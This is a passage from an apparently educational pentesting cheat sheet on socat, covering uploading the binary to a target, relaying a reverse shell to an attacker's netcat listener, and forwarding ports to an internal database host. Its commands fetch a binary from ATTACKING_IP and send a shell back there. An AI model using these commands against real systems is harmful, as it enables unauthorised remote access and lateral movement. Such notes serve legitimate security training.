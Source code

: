  The resulting `.ppk` file can then be transferred to the Windows target

## Socat

It's best to think of socat as a way to join two things together. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

### Upload Socat

```text
#on attacker
sudo python3 -m http.server 80

#on target
curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat
```

> **Line 2**: Start a web server on our kali machine
>
> **Line 5:** Curl Socat onto the attacking box, **O**utput it as /tmp/socat and add the e**x**ecutable bit.

### **Reverse Shell Relay**

Using socat we can create a relay for us to send a reverse shell back to our own attacking machine.

```text
#on attacker
sudo nc -lvnp 443

#on target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

> **Line 2:** Start a netcat listener on port 443.
>
> **Line 5:** Using socat, relay port 443 to our local machine on port 8000.
>
> **&:** Backgrounds the application.

{% hint style="info" %}
Make sure to open the listening port first, then connect back to the attacking machine.
{% endhint %}

###  **Port Forwarding**

Open up a listening port on the compromised server, and redirect whatever comes into it to the target server. 

```text
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

> **./socat:** Run Socat.
>
> **tcp-l:33060:** start a listening port on 33060 on our local machine.
>
> **Fork:** put every connection into a new process.
>
> **reuseaddr:** keeps the port open after a connection is made.
>
> **&:** Backgrounds the application.
